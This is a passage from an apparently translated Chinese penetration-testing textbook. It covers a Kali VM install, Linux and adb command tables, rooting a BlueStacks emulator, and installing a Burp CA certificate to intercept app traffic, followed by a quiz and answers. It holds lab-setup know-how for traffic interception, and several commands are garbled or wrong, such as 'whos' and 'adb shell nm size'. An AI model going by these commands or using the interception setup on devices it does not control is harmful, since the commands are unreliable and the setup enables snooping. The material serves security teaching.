
如果你的主机 Windows 机器上有足够的 RAM 和 CPU，建议增加 RAM 和 CPU。在点击“完成 (Finish)”之前，点击“自定义硬件 (Customize Hardware...)”来增加内存。你可以使用滑动条增加内存。

### 步骤 10 – 选择新的 CD/DVD (IDE)
现在，该告诉 `VMware Workstation Player` `Kali Linux` ISO 镜像的位置，以便它从那里加载 `Kali` 操作系统了。为此，你需要进入“新 CD/DVD (IDE) (New CD/DVD (IDE))”，并在右侧选择“使用 ISO 镜像文件 (Use ISO image file)”从下载位置选择 `Kali Linux` ISO 镜像：

图 3.11：选择 Kali Linux ISO 镜像

### 步骤 11 – 运行虚拟机

图 3.12：运行虚拟机

### 步骤 12 – 安装 Kali

图 3.13：安装 Kali

图 3.14：安装 Kali

### 步骤 13 – 启动菜单

图 3.15：启动菜单

### 步骤 14 – 图形安装

图 3.16：图形安装

| `touch <file>` | 创建一个空文件 |
|---|---|
| `cp -r <dir1> <dir2>` | 创建目录及其包含的所有内容的副本 |
| `cp <file1> <file2>` | 创建文件的副本 |
| `cp <file> /home/Desktop/file2` | 在不同目录创建文件副本并重命名为 `file2` |
| `mv <file> /home/Desktop` | 将文件移动到特定目录（覆盖同名文件） |
| `mv <dir> /home/Desktop` | 将目录移动到另一个位置 |
| `mv <dir1> <dir2>` | 重命名文件或目录 (`dir1` -> `dir2`) |
| `rm <file>` | 删除文件 |
| `rm -f <file>` | 强制删除文件 |
| `rm -r <dir>` | 删除目录及其内容 |
| `rm -rf <dir>` | 强制删除目录及其内容 |


## 表 3.1：重要的 Kali Linux 命令

| `cat <file>` | 显示/输出文件内容 |
| `less <file>` | 以滚动分页功能显示文件内容（按 `q` 退出） |
| `head <file>` | 显示文件的前十行 |
| `head -20 <file>` | 显示文件的前 20 行 |
| `tail <file>` | 显示文件的后十行 |
| `tail -20 <file>` | 显示文件的后 20 行 |
| `diff <file1> <file2>` | 两个文件（`file1` 和 `file2`）之间的差异 |

### 系统工具

| `poweroff` | 关闭系统 |
| `reboot` | 重启系统 |
| `cal` | 显示月历 |
| `date` | 检查日期和时间 |
| `uname -a` | 显示系统信息 |

### 查看磁盘和内存占用

| `df -h` | 显示磁盘空间使用情况 |
| `fdisk -l` | 列出磁盘分区表 |
| `free` | 显示内存使用情况 |

### 查看用户信息

| `whoami` | 输出你的用户名 |
| `历史` | 查看之前执行过的命令列表 |

### 安装和升级软件包

| `apt-cache <pkgnames>` | 列出所有可用软件包 |
| `apt search <name>` | 搜索软件包及其描述 |
| `apt show <name>` | 软件包的详细描述 |

### 安装软件包

| `apt-get install <name>` | 安装一个软件包 |
| `apt-get install <name2>` | 安装多个软件包 |

### 更新、升级和清理

| `apt-get update` | 更新可用软件包列表 |
| `apt-get upgrade` | 安装可用软件包的最新版本 |
| `apt-get dist-upgrade` | 强制升级软件包 |
| `apt-get autoremove` | 移除不再需要的已安装软件包 |
| `apt-get clean` | 通过删除存档软件包释放磁盘空间 |

### 删除软件包

| `apt-get remove <package name>` | 卸载软件包 |
| `apt-get remove --purge` | 卸载软件包并删除其配置文件 |

### 进程和作业管理

| `top` | 实时显示运行中的进程和系统占用 |
| `ps` | 显示当前运行的进程 |
| `ps -u <user>` | 显示用户当前运行的进程 |
| `kill <PID>` | 通过 `PID` 杀死进程 |
| `killall <processes>` | 杀死所有指定名称的进程 |

### 网络工具

| `ping <host>` | 测试主机连接 |
| `whos <domain/IP>` | 获取域名或 IP 的所有信息 |
| `dig <domain/IP>` | 获取 DNS 信息 |
| `nslookup <dns server>` | 获取名称服务器信息 |
| `ifconfig` | 配置/显示网络接口 |
| `iwconfig` | 配置/显示无线网络接口 |
| `netstat -r` | 显示内核 IP 路由表 |
| `netstat -antp` | 检查已建立和监听的端口/连接 |
| `arp -a` | 显示所有接口的 ARP 缓存表 |

## 为移动应用程序渗透搭建实验室

在不断进步的世界中，移动应用程序的主导地位比任何时候都要大；这种进步产生了一系列在传统 Web 应用世界中并不相关的攻击。现在，我们将演示为移动应用安全评估建立实验室的最佳方法。移动渗透测试实验室可能包含多个操作系统，如 Android、iPhone 等。本章仅应帮助你建立实验室以及 Android 渗透测试所需的某些设备。

## 移动渗透实验室的基本要素

为了为 Android 设备设置渗透测试环境，需要包含多个工具的完整 Android 开发环境。在本节中，我们将介绍移动渗透实验室的几个关键要素以及如何设置它们。

## Android 调试桥 `adb`

Android 调试桥 `adb` 是一个灵活的命令行设备，允许你与设备进行交互。`adb` 命令辅助选择设备活动，如挂载和调试应用，并提供对 UNIX 层的访问，你可以利用它在设备上运行一系列命令。

`adb` 由 Android SDK `platform-tools` 软件包组成。你可以通过 SDK 管理器下载此包，它会安装在 `android_sdk/platform-tools/`。如果你想要独立的 SDK `platform-tools` 包，可以从 `https://developer.android.com/studio/releases/platform-tools` 下载。

一旦安装了 Android 平台工具，你就应该在 `android_sdk/platform-tools/` 中找到 `adb` 二进制文件。

xi. 在 BlueStacks 模拟器中安装名为 SuperSU 的 Android 应用。

然后，你可以在 BlueStacks 模拟器中使用 `su` 命令切换到 root 用户，并在模拟器上以 root 权限执行二进制文件。

### 通过 Android 调试桥接 `adb` 连接 BlueStacks 模拟器

`rooting` 后，你应该能够通过主系统控制和操作你的 Android 模拟器。要实现这一点，你需要在 BlueStacks 模拟器上启用 Android 调试桥接。为此，你需要进入 `Settings -> Preferences ->` 勾选 `Enable Android Debug Bridge (ADB)` 复选框：



Figure 3.19: BlueStacks 配置

之后，在你的 PC 上执行以下命令：

```
adb tcpip 5555
adb connect 127.0.0.1:5555
```

之后，你的 `adb` 应该已经连接到 BlueStacks 模拟器。要验证这一点，你必须执行 `adb devices` 命令。它将为你列出连接到 `adb` 的移动设备/模拟器：

```
C:\Windows\System32\cmd.exe
C:\Users\Debashis\Desktop\frida_and>adb devices
List of devices attached
emulator-5554    device

C:\Users\Debashis\Desktop\frida_and>>
```

Figure 3.20: `adb` 命令

之后，如果你执行 `adb shell`，你将获得 BlueStacks 模拟器的 shell：

```
C:\Users\Debashis\Desktop\frida_and>adb shell
OnePlus5:/ $ su
OnePlus5:/ # ls default.prop      init.environ.rc
boot             dev                               init.rc
bugreports etc                    init.usb.configfs.rc
cache            file_contexts.bin             init.usb.rc
charger          fstab.android_x86           init.zygote32.rc
config           fstab.sdcard.android_x86  lib
d               init                                 mot
data             init.android_x86.rc          oem
OnePlus5:/ # _
```

Figure 3.21: `adb shell` 命令

## Burp Suite 代理

拦截代理是用于检查、更改，并在许多情况下将网络流量直接注入客户端和服务器之间创建的正常会话的工具。一个常见的例子是在使用如 Burp Suite 这样的工具对网站安全性进行测试，该工具充当连接你网络浏览器到它的代理。这使得 Burp Suite 能够调节网络浏览器请求的连接，并允许将大量的工具和测试方法放入该链接中。

使用 Burp suite 拦截浏览器流量非常简单。你只需要导航到 Burp 的 `Proxy Tab` -> `Intercept Tab`，然后点击 `Open Browser`。它将启动一个新的 chromium 浏览器窗口。渗透测试人员可以在新启动的浏览器窗口中浏览目标网站。流量将通过 Burp 代理传输，测试人员应该能够查看并拦截网络流量。


Burp Suite 或类似的拦截代理是移动渗透测试的性工具，因为它允许渗透测试人员查看移动 App 在移动设备或模拟器中运行时是如何与服务器通信的：



要在 Burp Suite 中成功拦截所有 HTTP/HTTPS 通信，你需要遵循以下步骤：

+ 1. 在 BlueStacks 模拟器中从 Play Store 安装 **Root Certificate Manager（根证书管理器）** 应用。

2. 在 BlueStacks 模拟器中从 Play Store 安装 **Proxy Droid** 应用。

3. 在 PC 上启动 Burp Suite。进入 **Proxy（代理）** 标签页 -> **Options（选项）** 子标签页，配置你的 burp 代理监听所有接口端口 **8080**：



4. 之后，点击 **Import / export CA certificate（导入/导出 CA 证书）** 按钮；它允许你以 DER 格式导出 Burp Suite 证书。将其导出并保存为 `cert.der` 以备后用：



每次安装 Burp 都会生成自己的 CA 证书，Proxy 监听器在协商 TLS 时可以使用它。

Figure 3.24: Burp 导出 CA 证书

+ 5. 使用 Android 调试桥 (`adb`) 通过 `adb push /home/user/cert.der /data/local/tmp` 命令将 `cert.der` 复制到你的模拟器。这将 `cert.der` 文件传输到你的模拟器。

+ 6. 在模拟器中打开第 1 步安装的 Root Certificate Manager，并将 `/data/local/tmp/cert.der` 文件作为根证书安装到你的 Android 模拟器。之后，你应该在 Root Certificate Manager 应用的证书列表中看到 Burp Suite 证书：



Figure 3.25: Burp CA 证书列表

+ 7. 在模拟器中打开 Proxy Droid 应用，并将 `/data/local/tmp/cert.der` 文件作为根证书安装到你的 Android 模拟器。之后，你应该在 Root Certificate Manager 应用的证书列表中看到 Burp Suite 证书：

(注：原文此处存在大量重复的步骤 7，已按要求去重)

| 手机信息 | |

| :--- | :--- |

| `adb get-state` | 打印设备状态 |

| `adb get-serialno` | 获取序列号 |

| `adb shell dumpsys phonesinfo` | 获取 IMEI |

| `adb shell netstat` | 列出 TCP 连接情况 |

| `adb shell pwd` | 打印当前工作目录 |

| `adb shell dumpsys battery` | 电池状态 |

| `adb shell pm list features` | 列出手机功能 |

| `adb shell service list` | 列出所有服务 |

| `adb shell dumps activity <package>/` | Activity 信息 |

| `adb shell ps` | 打印进程状态 |

| `adb shell nm size` | 显示当前屏幕分辨率 |

| 设备日志操作 | |

| `adb logcat [options] [filter] [filter]` | 查看设备日志 |

| `adb bugreport` | 打印错误报告 |

| 权限管理 | |

| `adb shell permissions groups` | 列出权限组定义 |

| `adb shell list permissions -g` | 列出权限详情 |

| 设备相关命令 | |

| `adb reboot-recovery` | 重启设备进入恢复模式 |

| `adb reboot fastboot` | 重启设备进入引导模式 |

| `adb shell screencap -p "/path/to/cap.png"` | 截图 |

| `adb shell screenrecord "/path/to/vid.mp4"` | 录制设备屏幕 |

表 3.2: 重要命令

## 一些常用的 Android 设备路径

在对 Android 应用进行渗透测试时，这里是一些你应该随时备用的常用 Android 系统路径：

| `/data/data/<your package>/databases` | App 数据库。 |

| `/data/data/<your package>/shared_prefs/` | 共享配置 (Shared preferences)。 |

| `/data/app` | 用户安装的 APK。 |

| `/system/app` | 预装 APK 文件。 |

| `/mnt/emmc` | 内部 卡。 |

| `/mnt/sdcard` | 外部/内部 SD 卡。 |

| `/mnt/sdcard/external_sd` | 外部 SD 卡。 |

表 3.3: Android 设备路径

## 结论

无论你是爱好者还是经验丰富的渗透测试员，拥有一个家庭实验室都是必要的。最终，每个人都会遇到新的情况或产生创新的想法，这需要进行实验。出于价值和安全的考虑，实验必须在隔离的环境中进行。我们坚信，这一章已经说明了搭建一个用于练习的渗透实验室有多简单。从接下来的章节开始，我们可能会充分利用这些工具和系统来学习一些实用的渗透测试技能。

## 需要记住的要点

- 未经许可侵入他人的计算机系统和网络是违法的，但建立一个模拟他人环境的自己的实验室并进行安全实验是完全合法的。

- 从安全角度来看，在隔离的实验室中进行渗透测试也是最佳选择。某些渗透测试设备和方法可能会损坏或破坏目标计算机系统或网络。

- 让 Google 成为你最好的朋友。正如前面提到的，渗透测试员的生活充满了挑战。你每天都会遇到带有新挑战的新环境，这在我们的书中是不可能涵盖的。你要让 Google 成为你最好的朋友，以学习这些新环境并在本地机器上对它们模拟。

## 单选题

+ 1. Kali Linux 中内置的 Android 模拟器名称是什么？

A. BlueStack

B. NoxPlayer

C. Dolphin

D. 以上都不是

+ 2. Kali Linux 以前被称为以下哪一个？

+ A. Backtrace

B. Gnome

C. Parrot

D. Backtrack

+ 3. Kali Linux 2021.1 基于哪个一个版本的 Linux 内核？

+ A. Kernel 5.4.0, Xfce 4.14.22

B. Kernel 4.9, GNOME 32.22

C. Kernel 4.15.0, GNOME 3.28.00

D. Kernel 5.10.0, Xfce 4.16.1

+ 4. Android 调试桥接 (ADB) 带有哪个？

+ A. Ubuntu

B. Android 平台工具 (Android platform tools)

C. Windows 10

D. MacOSx

+ 5. 以下哪个工具不是 Kali Linux 的？

+ A. Cobalt strike

B. Metasploit

C. Hping2

D. sqlmap

+ 6. 下哪个命令用于在 Kali Linux 中杀死进程？

+ A. delete

B. nano

C. kill

D. hung

+ 7. Kali Linux 中的哪个工具用于嗅探？

+ A. Metasploit

B. wireshark

C. sniff

D. Hping

## 答案

+ 1. D

2. D

3. A

4. B

5. A

6. C

7. B

## 问题

+ 1. 什么是 Kali Linux？

2. 什么是 Linux 内核？

3. 使用什么命令检查已使用的内存？

4. 如何检查 Kali Linux 是否支持任何无线卡？

5. 区分用户模式 (`user mode`) 和特权模式 (`privileged mode`)。

6. Kali Linux 提供工具的渗透测试包含哪些阶段？

7. 什么是虚拟 NAT（virtual NAT）？

8. 什么是桥接网络（bridged network）？

9. 虚拟机的主机网络 (`host only network`) 是什么意思？

10. 列出 Kali Linux 中允许你发现远程系统开放的工具。

## 术语

- Pentest: 渗透测试 (Penetration testing)


- `VM`: 虚拟机 (Virtual machine)

- `Snapshot`: 快照：虚拟机快照是特定时间虚拟机硬盘的副本。当用户拍摄快照时，它保留了虚拟机的状态，以便我们可以在需要时返回。

- `Clone`: 克隆：虚拟机克隆是现有虚拟机的副本。被克隆的虚拟机被称为父虚拟机。

- `ADB`: Android 调试桥接 (Android Debug Bridge)

通过浏览器（如 Google Chrome、Mozilla Firefox 或 Safari）运行应用程序。

为了让 Web 应用程序运行，它需要 Web 服务器、应用服务器和数据库。Web 服务器处理来自客户端的请求，而应用服务器完成请求的任务。数据库可以用于存储任何类型的所需信息。TCP 端口 80（用于 HTTP）和 TCP 端口 443（用于 HTTPS，又称安全 HTTP）是 Web 服务器与客户端/Web 浏览器通信的标准端口。

## 标准 Web 应用程序架构

Web 应用程序是一个复杂的软件。它包含许多元素，如用户界面（也称为前端）、应用业务、数据库等。为了管理这些元素，工程师设计了 Web 应用程序架构，以从逻辑上定义这些组件之间的关系和交互方法。

通过演示每个组件如何协同工作，定义标准的 Web 应用程序架构并不复杂：



图 4.1：标准 Web 应用程序架构

每个 Web 应用程序由前端和后端组成，如图 4.1 所示。

Web 应用程序的前端是用户在 Web 浏览器上看到并交互的所有内容。前端的主要功能是收集用户数据。它通常用 HTML、CSS 和 JavaScript 等语言编写。前端组件（HTML、CSS 和 JavaScript）通常保存在静态文件中，并保存在任何 Web 服务器的文件系统中。当用户请求 Web 页面时，Web 服务器首先将静态内容（.js、.css、.html 文件等）直接传递到他们的 Web 浏览器中，由浏览器进行渲染以为用户创建图形化用户界面。

接下来是是后端，也称为应用程序的服务器端。它是用户无法访问的部分；它存储并处理从前端传来的信息。后端处理 HTTP 请求，这些请求本质上带来了用户所需的数据（消息、图像等）。与前端不同，可以使用 PHP、Java、Python、JavaScript (Node.js) 等多种语言来开发 Web 服务器的后端。

为了理解前端和后端之间是如何相互通信的，我们必须拦截浏览器/客户端与 Web 服务器之间的流量。如之前所述，我们可以使用像 Burp Suite 这样的拦截工具来实现。如果我们这样做，就可以看到传输的请求，正如图 4.2 所示：

